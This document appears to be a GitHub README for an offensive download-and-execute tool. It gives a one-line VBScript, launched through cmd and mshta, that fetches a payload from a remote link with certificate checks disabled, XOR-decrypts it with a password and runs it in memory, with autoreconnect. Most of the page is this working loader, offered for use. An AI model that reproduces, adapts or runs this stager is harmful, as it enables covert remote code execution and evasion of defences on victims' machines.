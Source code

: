 # MSHTA-VBS-download-and-execute
Downloads, decode, decrypt and executes a VBScript using cmd and mshta
```
'=========================================='
'                 Features                 '  
'++++++++++++++++++++++++++++++++++++++++++'
' [*] Autoreconnect                        '
' [*] Hexadecimal encoded payload (UTF8)   '
' [*] Encrypted payload                    '
' [*] In (almost) memory execution         '
'++++++++++++++++++++++++++++++++++++++++++'
'<---------------------------------------->'
'<========================================>'
'<---------------------------------------->'
'mshta.exe one line command                '
'mshta.exe maximum command length   : 487  '
'Script length with double quotes   : 330  '
'<---------------------------------------->'
'=========================================='
```
## One line command
```
"On Error Resume Next:Set a=CreateObject(""MSXML2.ServerXMLHTTP.6.0""):a.setOption 2,13056:while(Len(b)=0):a.open""GET"",""LINK_TO_YOUR_PAYLOAD"",False:a.send:b=a.responseText:wend:k=""PAYLOAD_PASSWORD"":for i=0to Len(b)-1Step 2:c=c&Chr(Asc(Chr(""&H""&Mid(b,i+1,2)))xor Asc(Mid(k,((i/2)mod Len(k))+1,1))):Next:ExecuteGlobal c:"
```

## Example
```
(cmd.exe): mshta vbscript:execute("ONE LINE COMMAND")(window.close)
```
![Alt Text](https://i.imgur.com/9wuCs1v.gif)
